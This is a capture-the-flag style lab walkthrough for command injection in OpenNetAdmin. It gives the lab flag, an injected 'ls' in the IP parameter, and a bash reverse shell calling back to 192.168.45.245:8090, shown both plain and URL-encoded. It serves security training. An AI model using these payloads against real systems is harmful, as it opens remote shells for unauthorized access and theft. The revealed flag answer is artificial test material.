


# **Command Injection Case Study**

## **OpenNetAdmin (ONA)**

### **Exploitation**
#### **Labs**
#### **Lab 1.** Utilize our newly found code execution capability to retrieve a reverse shell, locate and exfiltrate the contents of the flag.txt file located in the web-root of ONA.

Answer - OS{ona_flag1}

- Intercept 'Ping to Verify' request in Burp Suite. 


- Check if IP parameter is vulnerabile to command injection.
Payload:
```
xajaxargs[]=ip%3D%3E172.24.0.2;ls
```

  

- Check if bash exists by using command `which bash`


- Now try a bash reverse shell.

Payload:
```
;bash -c 'bash -i >& /dev/tcp/192.168.45.245/8090 0>&1'
```

- Now encode the payload.
```
;bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.245/8090%200%3E%261%27
```

Full Payload:
```
ip%3D%3E172.24.0.2;bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.245/8090%200%3E%261%27
```




- You can see there is a flag.txt file is present. Now read that file.    


